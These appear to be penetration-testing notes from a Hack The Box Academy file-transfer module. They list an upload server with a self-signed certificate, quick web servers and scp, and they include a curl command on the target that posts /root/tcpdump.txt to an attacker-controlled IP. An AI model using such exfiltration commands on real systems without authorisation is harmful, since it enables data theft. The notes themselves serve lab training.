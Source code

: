 ![](https://academy.hackthebox.com/storage/modules/24/WIN-download-PwnBox.png)

==Web Upload with uploadserver==
```bash
# Create self-signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
# Create directory for web server
mkdir https && cd https  
# Start HTTPS server
sudo uploadserver 443 --server-certificate ~/server.pem  
```

```bash
# Target
curl -X POST http://10.10.15.253:8080/upload -F 'files=@/root/tcpdump.txt' --insecure
```

==Web Servers==
```bash
# Target
python3 -m http.server
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000
```

```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

==Upload Using SCP==
```bash
scp agent riley@painters.htb:/home/riley/
```

